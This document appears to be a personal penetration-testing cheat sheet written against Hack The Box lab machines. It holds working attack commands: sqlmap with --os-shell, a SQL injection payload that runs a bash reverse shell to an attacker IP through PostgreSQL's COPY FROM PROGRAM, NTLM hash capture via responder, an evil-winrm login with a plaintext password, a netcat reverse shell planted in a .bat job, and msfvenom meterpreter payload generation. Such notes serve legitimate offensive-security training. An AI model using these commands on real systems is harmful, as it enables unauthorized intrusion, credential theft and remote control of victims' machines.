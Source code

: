 ### zip2john

This script comes with the John The Ripper tool set and generates a hash from a password protected zip archive in a format to allow for cracking attempts.

```
zip2john zipfile
john hashfile --show
```

### sqlmap

```
sqlmap -u 'http://10.129.40.114/dashboard.php?search=any+query' --cookie="PHPSESSID=giv5u1mtvv7vma80a48fjm08cv" --os-shell --proxy=http://127.0.0.1:8080
```

Catch the last request with Burp and send to Repeater to quick shell access.
I can decode the request like f.e.: (this is after ilike query)
```
any query';DROP TABLE IF EXISTS sqlmapoutput;CREATE TABLE sqlmapoutput(data text);COPY sqlmapoutput FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.16.32/4433 0>&1"';--
```

### WinRM (5985) Remote Management

**responder.py** catches incoming NTLM hashes from authentication process that can be cracked with john. We can use URL to steal NTLM with our localhost responder server: `http://unika.htb/?page=//10.10.14.25/somefile` 
`evil-winrm -i 10.129.136.91 -u administrator -p badminton` -> is good from logging in from Linux with PowerShell enabled.

### Windows privesc with ssh key

`ssh -i id_rsa user@{target_IP}`

```
whoami /priv
icacls (check priviledges to edit files)
```

I can use for reverse shell nc64.exe (if it works):
```
echo C:\Log-Management\nc64.exe -e cmd.exe {your_IP} {port} > C:\Log-Management\job.bat
```

Or msfvenom to generate reverse shell payload https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```

